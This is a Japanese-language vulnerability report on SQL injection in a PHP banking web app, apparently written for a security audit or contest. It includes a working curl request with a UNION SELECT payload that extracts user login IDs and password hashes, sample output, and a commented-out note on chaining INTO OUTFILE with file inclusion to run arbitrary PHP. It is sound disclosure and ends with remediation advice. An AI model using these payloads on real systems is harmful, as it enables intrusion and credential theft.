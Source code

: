 ## 想定されていないSQLを実行し、任意のPHPを実行される脆弱性
### 対象
httpリクエストにてSQLインジェクションが可能なエンドポイント
* `activate.php` (条件あり: 送信元IP)
* `banklist.php` 
* `branchlist.php`
* `hidden_server.php` (条件あり: 送信元IP)
* `login.php`
* `passbook.php` (条件あり: 有効なセッションがあること)
* `transactionlist.php` (条件あり: 有効なセッションがあること)
* `transfer.php` (条件あり: 有効なセッションがあること)
* `user.php`  (条件あり: 有効なセッションがあること)
* `verify.php` (条件あり: 有効なセッションがあること)

### 危険度
High
* 想定される被害・影響が非常に大きく、容易に実行できるため

### 解説
このプログラムは、Http request bodyから受け取った文字列をSQL文に挿入することでSQLを実行している。
しかし、処理に不備がありエスケープせずにSQLを実行する為、SQLインジェクション攻撃が可能である。
<!--また、DBサーバのセキュリティ設定が甘いため、SQLインジェクション攻撃を用いて
任意のPHPプログラムをmysqlのグローバルセッティング`secure_file_priv`にて許可されている`/var/lib/mysql-files/`以下に
`INTO OUTFILE`構文を用いてphpファイルを出力することで
login.phpにてLFI(Local File Inclusion)攻撃にて任意のPHPを実行することができる。-->


### 再現方法
#### UNION句を使ったデータの取得
以下のコマンドを実行することでbranchlistを使って任意のデータを取得することができる

```sh
curl -X POST http://${SERVER_IP}/ \
  -F mode=branchlist \
  -F "JSON={\"bank_code\":\"' UNION ALL SELECT id, loginid, password, name_mei FROM users;--\"}'
```

結果
```json
{
    "branch": [
        {
            "bank_code": "mbsd001", 
            "code": "晶夫", 
            "id": "1", 
            "name": "$2y$10$RpbLdohNKvjeRzUUKdVW0eIUXZNEI7x4JqjWIV6mncTOIx484K7NO"
        }
    ], 
    "msg": "ok"
}
```


### 条件
特になし

### 想定される被害・影響
* DBデータの不正入手
* 任意のSQL文の実行
  * 追加
  * 更新
  * 削除

### 対策
* sqlを実行する前に、エスケープを行うかプリペアードステートメントを利用するようにプログラムを修正する
